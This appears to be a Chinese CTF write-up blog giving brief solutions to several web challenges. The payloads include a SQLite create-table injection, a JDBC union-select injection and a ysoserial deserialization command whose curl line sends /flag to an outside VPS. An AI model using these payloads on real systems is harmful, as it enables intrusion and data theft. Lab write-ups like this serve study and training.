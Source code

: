 ## [Black Watch 入群题]Web2
https://www.cnblogs.com/W4nder/p/12699158.html
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210316112446.png)
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210316112420.png)
最后的mysql任意文件读取漏洞：https://blog.csdn.net/shuteer_xu/article/details/104046895/
但是环境似乎有问题，所以此题未提交 方法是对的。

当天晚上更新：题目已解决 需要用自己的VPS（记得开端口）人已经被赵总骂傻了

## [Zer0pts2020]phpNantokaAdmin
关键词：sqlite trick
根据提示这是一个 Sqlite 数据库，相应的操作有创建表、插入值和删除表，那么有可能存在注入的是创建表和插入值，但是插入值那里似乎注不了，所以注入点应该在创建表那里
首先我们需要知道 Sqlite 的一些特性
当 Sqlite 进行 select 时，可以用[]、'、" 和 ` 来装饰列名，位于列名后面的字段被称为别名，如
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210316160252.png)
create table 时支持一种 as 的语法
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210316160315.png)
参数处有 32 长度的字符限制，所以我们不能进行常规的查表查字段，不过我们直接直接查询当前表的 sql 语句，还有过滤了一些标点符号，其中过滤了注释符 -- ，可以用 ; 进行闭合
查询当前表的数据操作
table_name=kk as select [sql][&columns[0][name]=1&columns[0][type]=]from sqlite_master;

## [FBCTF2019]Products Manager
关键词：mysql trick
www.zip
注册个facebook后面跟大于六十个空格的账号
然后facebook登陆即可。
https://www.cnblogs.com/wkzb/p/12286303.html

## [网鼎杯 2020 朱雀组]Think Java
参考：https://www.bilibili.com/video/av840794036/；https://blog.csdn.net/weixin_43610673/article/details/106214366
关键词：jdbc trick；java 反序列化
给了源码，很容易跟踪到sql注入处（jdgui）。dbName可控，源码如下
dbName = "jdbc:mysql://mysqldbserver:3306/" + dbName;
这里是一个jdbc的trick
jdbc:mysql://mysqldbserver:3306/?dbName=myapp?a=' union select group_concat(pwd)from(user)#
在jdbc后面加问号可以引用其一些属性。
注出密码：admin@Rrrr_ctf_asde，但是仍需要登录接口。
接下来看到一开始就在跑的dirsearch跑出/swagger-ui.html，也有师傅说看到import io.swagger.annotations.ApiOperation;应该能想到有swagger-ui.html
登陆成功，得到一串rO0A开头的代码，是Java序列化base64加密的数据开头。如果以aced开头，那么他就是这一段Java序列化的16进制
/common/user/current 查看用户信息，auth 头是一个序列化后的信息，在查看用户信息时提交这个Bearer token进行反序列化。
用ysoserial 打 
java -jar ysoserial-0.0.5.jar ROME "curl http://121.196.169.53:3333 -d @/flag" | base64 -w 0
current打过去，VPS监听3333端口
我这里直接带出数据，看到有的师傅能拿到权限有的不能，发生甚么事了。
弹shell命令：https://www.cnblogs.com/20175211lyz/p/12397933.html

